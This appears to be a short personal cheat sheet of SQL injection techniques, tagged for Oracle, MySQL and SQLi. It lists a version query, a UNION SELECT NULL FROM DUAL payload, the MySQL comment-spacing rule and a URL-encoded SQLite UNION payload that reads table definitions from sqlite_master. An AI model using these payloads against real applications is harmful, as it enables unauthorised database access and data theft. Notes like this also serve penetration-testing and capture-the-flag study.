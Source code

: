 [[oracle]]
[[mysql]]
[[SQLi]]
#sql
#### Oracle
* `SELECT * FROM v$version`
* required table DUAL for empty select: `' UNION SELECT NULL FROM DUAL--`
* string concat `username||password`

##### MySQL
* Required space after comment: `--<space>`

##### Sqlite
Get tables definition:
```
asd'))+union+select+sql,2,3,4,5,6,7,8,9+from+sqlite_master+where+type='table'--
```
